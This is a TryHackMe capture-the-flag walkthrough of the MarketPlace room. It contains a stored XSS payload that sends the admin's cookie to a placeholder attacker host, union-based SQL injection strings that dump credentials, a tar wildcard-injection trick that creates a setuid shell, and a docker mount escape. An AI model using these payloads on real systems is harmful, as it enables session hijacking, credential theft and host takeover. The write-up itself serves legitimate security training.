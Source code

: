 🚀 Walkthrough: MarketPlace (TryHackMe)
Platform: TryHackMe
Room: MarketPlace
Difficulty: Medium
Focus Areas: XSS Exploitation, Cookie Hijacking, SQL Injection, Privilege Escalation, Docker Escape

🧠 Penetration Testing Methodology

    🔍 Reconnaissance

    🔎 Enumeration

    🎯 Exploitation

    ⬆️ Privilege Escalation

🔍 Reconnaissance

We begin by scanning the target with nmap, revealing the following open ports:

    22 (SSH)

    80 (HTTP)

nmap -sC -sV -T4 -p- <target-ip>

🔎 Enumeration

Upon visiting the website hosted on port 80, we notice:

    A functional sign-up and login system

    Ability to add custom listings

    Option to report listings to the administrator

🔥 Stored XSS Vulnerability

    When creating a new listing, input is not properly sanitized.

    We inject a JavaScript payload into the listing:

<script>document.location="http://<attacker-ip>:<port>/i.php?cookie="+document.cookie</script>

    Once the listing is reported, the admin views it, and their session cookie is exfiltrated via a Netcat listener.

nc -lvnp <port>

    Replacing our session cookie with the captured admin cookie grants us access to the admin panel and the first flag.

💥 Exploitation

Within the Administration Panel, we find a vulnerable endpoint:

/admin?user=<id>

Injecting SQL characters like ' reveals a SQL error, confirming the injection point.

We now leverage SQLi (Union-based) to enumerate and dump data.
🧪 SQL Injection Payloads

    Database Name

/admin?user=10 UNION SELECT database(),2,3,4--

Tables in DB

/admin?user=10 UNION SELECT 1,GROUP_CONCAT(table_name),3,4 FROM information_schema.tables WHERE table_schema=database()--

Columns in users table

/admin?user=10 UNION SELECT 1,GROUP_CONCAT(column_name),3,4 FROM information_schema.columns WHERE table_name='users'--

Dump credentials

/admin?user=10 UNION SELECT 1,GROUP_CONCAT(username,0x3a,password),3,4 FROM users--

Dump messages table

    /admin?user=10 UNION SELECT 1,GROUP_CONCAT(message_content),3,4 FROM messages--

📌 The messages contain sensitive information — specifically, SSH credentials for a set of users (system, jack, michael).

We brute-force logins using hydra and discover valid credentials for the user: jake
🔐 Privilege Escalation
✅ Initial Shell

Login via SSH as jake:

ssh jake@<target-ip>

Grab user.txt from home directory.
🔎 Sudo Misconfiguration

Using sudo -l, we learn:

jake can execute /opt/backups/backup.sh as michael

Inspecting the backup.sh script, it uses a wildcard (*) in a vulnerable context — allowing us to inject arbitrary commands.
🔧 Exploiting Wildcard Injection

Create two files:

echo 'cp /bin/bash /tmp/rootbash; chmod +s /tmp/rootbash' > shell.sh
touch "--checkpoint=1"
touch "--checkpoint-action=exec=sh shell.sh"

Execute the vulnerable script as michael:

sudo -u michael /opt/backups/backup.sh

Gain a root shell:

/tmp/rootbash -p

🐳 Docker Escape to Root

Inside the container, mount the host system:

mkdir /mnt/rootfs
docker run -v /:/mnt/rootfs -it ubuntu chroot /mnt/rootfs

Access the final flag:

cat /root/root.txt

🧠 Lessons Learned

    🔐 Web apps with admin review + XSS = Cookie Hijack 101

    🛡️ SQL Injection still reigns when input isn’t sanitized

    🐚 Sudo misconfigs and wildcard injections are dangerous combo

    🐳 Docker misconfigs allow full host compromise
